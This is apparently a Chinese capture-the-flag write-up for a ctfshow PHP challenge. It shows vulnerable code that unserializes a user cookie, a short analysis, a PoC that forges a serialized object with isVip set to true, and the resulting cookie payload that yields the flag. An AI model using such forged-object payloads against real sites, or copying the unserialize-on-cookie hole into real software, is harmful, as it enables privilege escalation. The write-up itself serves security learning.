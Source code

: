 ```php
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

简单分析一下：

1. 要定义username和password；从cookie传值user进行反序列化
2. 序列化得到的username和password要和传入的相等
3. isvip为true

poc：

```php
<?php

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
}

$a = new ctfShowUser();
echo urlencode(serialize($a));
```

payload:

```
get:?username=xxxxxx&password=xxxxxx

cookie:user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```

![](https://i.loli.net/2021/10/08/yMDL92lbRrBYVXu.png)

